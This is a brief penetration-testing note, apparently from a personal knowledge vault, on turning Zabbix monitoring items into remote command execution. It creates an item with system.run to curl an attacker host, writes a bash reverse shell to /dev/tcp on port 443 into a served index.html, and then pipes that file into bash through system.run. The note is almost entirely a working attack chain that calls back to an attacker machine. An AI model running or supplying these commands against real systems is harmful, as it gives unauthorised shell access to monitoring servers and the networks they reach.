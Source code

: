 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://blog.zabbix.com/zabbix-remote-commands/7500/

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Configuration > Hosts > $Hostname > Configuration > Items > Create Item
```
system.run[curl $KALI,nowait]
```

Click `Test`, then `Get value`, check listener.

![[Pasted image 20220925113513.png]]

```bash - kali
echo '/bin/bash -c "bash -i >& /dev/tcp/$KALI/443 0>&1"' > index.html
```

```
system.run[curl $KALI|bash,nowait]
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
